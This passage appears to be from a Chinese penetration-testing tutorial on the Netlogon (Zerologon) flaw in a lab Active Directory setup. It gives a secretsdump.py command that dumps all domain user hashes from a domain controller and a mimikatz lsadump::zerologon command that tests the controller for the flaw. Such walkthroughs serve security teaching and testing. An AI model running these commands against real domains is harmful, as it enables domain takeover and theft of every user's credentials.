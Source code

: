 也可以使用如下命令导出域内所有用户的哈希。

```
#导出所有用户哈希
python3 secretsdump.py "xie/AD01$"@10.211.55.4 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 -just-dc
```

如图导出域内所有用户哈希。

![截图](b819d5dbcda33992eafe4d6c2460266e.png)

### 2. mimikatz 复现

新版本的 mimikatz 已经集成了 Netlogon 权限提升漏洞检测和利用模块，我们也可以直接利用 mimikatz 来检测和利用。

#### （1）检测是否存在漏洞

使用 mimikatz 执行如下命令检测目标域控是否存在 Netlogon 权限提升漏洞.

```
mimikatz.exe "privilege::debug" "lsadump::zerologon /target:10.211.55.4 /account:AD01$" "exit"
```

如图所示，使用 mimikatz 检测目标域控是否存在 Netlogon 权限提升漏洞，提示 `Authentication: OK -- vulnerable. `即可证明目标域控存在 Netlogon 权限提升漏洞！
